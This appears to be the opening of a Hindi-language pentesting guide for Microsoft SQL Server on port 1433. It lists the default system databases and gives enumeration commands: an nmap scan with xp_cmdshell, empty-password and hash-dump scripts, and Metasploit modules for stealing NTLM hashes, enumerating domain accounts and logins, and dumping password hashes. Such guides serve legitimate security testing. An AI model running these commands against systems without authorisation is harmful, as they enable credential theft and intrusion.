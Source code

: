 # 1433 - Pentesting MSSQL - Microsoft SQL Server

{{#include ../../banners/hacktricks-training.md}}

## बुनियादी जानकारी

स्रोत: [wikipedia](https://en.wikipedia.org/wiki/Microsoft_SQL_Server):

> **Microsoft SQL Server** Microsoft द्वारा विकसित एक **रिलेशनल डेटाबेस** प्रबंधन प्रणाली है। एक डेटाबेस सर्वर के रूप में, यह एक सॉफ़्टवेयर उत्पाद है जिसका मुख्य कार्य डेटा को संग्रहीत और पुनःप्राप्त करना है, जैसा कि अन्य सॉफ़्टवेयर अनुप्रयोगों द्वारा अनुरोध किया जाता है — जो या तो उसी कंप्यूटर पर चल सकती हैं या नेटवर्क (जिसमें इंटरनेट शामिल है) के माध्यम से किसी अन्य कंप्यूटर पर चल सकती हैं।

**डिफ़ॉल्ट पोर्ट:** 1433
```
1433/tcp open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
```
### **डिफ़ॉल्ट MS-SQL सिस्टम टेबल्स**

- **master Database**: यह डेटाबेस महत्वपूर्ण है क्योंकि यह किसी SQL Server instance के सभी सिस्टम-स्तरीय विवरणों को समाहित करता है।
- **msdb Database**: SQL Server Agent इस डेटाबेस का उपयोग alerts और jobs के शेड्यूलिंग को प्रबंधित करने के लिए करता है।
- **model Database**: यह SQL Server instance पर हर नए डेटाबेस के लिए एक ब्लूप्रिंट के रूप में कार्य करता है, जहाँ size, collation, recovery model जैसे किसी भी परिवर्तन को नए बनाए गए डेटाबेस में प्रतिबिंबित किया जाता है।
- **Resource Database**: एक read-only डेटाबेस जो SQL Server के साथ आने वाले सिस्टम ऑब्जेक्ट्स को रखता है। ये ऑब्जेक्ट्स भौतिक रूप से Resource database में संग्रहीत होते हैं, पर हर डेटाबेस के sys स्कीमा में तार्किक रूप से प्रस्तुत किए जाते हैं।
- **tempdb Database**: अस्थायी ऑब्जेक्ट्स या मध्यवर्ती परिणाम सेट्स के लिए अस्थायी संग्रहण क्षेत्र के रूप में कार्य करता है।

## सूचीकरण

### स्वचालित सूचीकरण

यदि आपको सेवा के बारे में कुछ भी पता नहीं है:
```bash
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
msf> use auxiliary/scanner/mssql/mssql_ping
```
> [!TIP]
> यदि आपके पास **credentials** नहीं हैं तो आप उन्हें अनुमान लगाने की कोशिश कर सकते हैं। आप nmap या metasploit का उपयोग कर सकते हैं। सावधान रहें, यदि आप किसी मौजूदा **username** का उपयोग करके कई बार **login** में असफल होते हैं तो आप **block accounts** कर सकते हैं।

#### Metasploit (need creds)
```bash
#Set USERNAME, RHOSTS and PASSWORD
#Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used

#Steal NTLM
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer #Steal NTLM hash, before executing run Responder

#Info gathering
msf> use admin/mssql/mssql_enum #Security checks
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump
```